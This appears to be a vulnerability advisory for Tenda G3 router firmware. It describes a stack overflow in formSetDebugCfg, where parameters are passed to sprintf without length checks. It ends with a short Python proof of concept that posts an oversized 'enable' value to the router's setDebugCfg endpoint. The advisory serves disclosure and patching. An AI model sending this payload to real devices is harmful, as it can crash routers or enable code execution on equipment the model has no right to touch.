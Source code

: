 # Tenda G3 formSetDebugCfg
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetDebugCfg function.
### Vulnerability details
Stack-based buffer overflow in function formSetDebugCfg on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetDebugCfg line 15, it reads in 3 user-provided parameters, and the variable enable, level, module are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetDebugCfg-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setDebugCfg'
payload = {
    "enable": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
